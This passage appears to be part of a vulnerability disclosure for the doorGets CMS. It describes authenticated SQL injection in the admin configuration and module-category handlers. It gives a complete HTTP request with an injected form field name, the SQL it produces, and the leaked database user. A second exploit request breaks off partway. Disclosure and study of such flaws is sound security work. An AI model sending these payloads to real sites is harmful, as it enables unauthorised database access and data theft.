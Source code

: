 POST /dg-user/?controller=configuration&action=network HTTP/1.1
Host: 127.0.0.1:8003
Connection: keep-alive
Content-Length: 450
Pragma: no-cache
Cache-Control: no-cache
Origin: http://127.0.0.1:8003
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryABOebmYl9azFH0TC
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://127.0.0.1:8003/dg-user/?controller=configuration&action=network
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=6laloptc1mdug324doe9j3g1n6


------WebKitFormBoundaryABOebmYl9azFH0TC
Content-Disposition: form-data; name="configuration_network_facebook"

doorgets
------WebKitFormBoundaryABOebmYl9azFH0TC
Content-Disposition: form-data; name="configuration_network_facebook=(select/**/user())/**/where/**/id=1#"

doorgets
------WebKitFormBoundaryABOebmYl9azFH0TC
Content-Disposition: form-data; name="configuration_network_submit"

Save
------WebKitFormBoundaryABOebmYl9azFH0TC--
```
The SQL statement executed by the program is:
```UPDATE `_website` SET facebook = 'doorgets', facebook=(select/**/user())/**/where/**/id=1# = 'doorgets' WHERE id = '1'  LIMIT 1  ;```

Then visit ```http://domain.com/dg-user/?controller=configuration&action=network```
You can see that the value of select user() obtained by injection is: root@localhost
![65.png](./img/65.png)


**[17]**

In \doorgets\app\requests\user\modulecategoryRequest.php:

![66.png](./img/66.png)

Line 222 calls the dbQU function and passes the $data for database query. Because there is no filtering, SQL injection is caused.

After the administrator logs in, visit ```http://domain.com/dg-user/?controller=modulecategory&uri=blog&lg=en```
Click below:

![67.png](./img/67.png)

After filling in the data, capture the packet, replace the obtained cookie and modulecategory_edit_token with the following request, and then submit:
```
POST /dg-user/?controller=modulecategory&uri=blog&id=1&lg=en&action=edit HTTP/1.1
Host: 127.0.0.1:8003
Content-Length: 1408
Cache-Control: max-age=0
Origin: http://127.0.0.1:8003
Upgrade-Insecure-Requests: 1